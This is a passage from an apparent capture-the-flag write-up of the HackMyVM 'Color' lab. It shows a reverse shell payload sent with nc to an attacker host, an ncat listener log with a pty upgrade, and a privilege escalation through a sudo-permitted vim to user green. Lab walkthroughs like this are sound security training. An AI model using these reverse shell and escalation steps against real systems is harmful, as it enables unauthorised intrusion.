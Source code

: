 ![image](https://user-images.githubusercontent.com/87468669/224057162-dd8b9ee3-a493-4f37-9717-7ab4fab9be3c.png)

cool we hae RCE as user `www-data`, let's get a reverse shell.

![image](https://user-images.githubusercontent.com/87468669/224058101-dbf3401b-c95c-4bf3-845c-06c8c551dff5.png)

ncat listener ready, reverse shell payload `nc -c /bin/bash 192.168.0.100 1337`. snd the payload and check back ncat listener...

```
┌──(n16hth4wk👽n16hth4wk-sec)-[~/Documents/Hackmyvm/Color]
└─$ ncat -lnvp 1337
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::1337
Ncat: Listening on 0.0.0.0:1337
Ncat: Connection from 192.168.0.101.
Ncat: Connection from 192.168.0.101:46336.
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@color:/var/www/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@color:/var/www/html$ 
```
got shell as user `www-data`. let's escalate privs further.

```
www-data@color:/var/www/html$ sudo -l
Matching Defaults entries for www-data on color:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on color:
    (green) NOPASSWD: /usr/bin/vim
www-data@color:/var/www/html$ sudo -u /usr/bin/vim
sudo: unknown user: /usr/bin/vim
sudo: error initializing audit plugin sudoers_audit
www-data@color:/var/www/html$ sudo -u green /usr/bin/vim

green@color:/var/www/html$ id
uid=1127(green) gid=1127(green) groups=1127(green)
green@color:/var/www/html$ 
```
by checking sudo privs, we noticed that user `www-data` is allowed to run sudo as user `green` on `/usr/bin/vim`. so escalated privs and got shell as user `green`. let's escalate privs further.

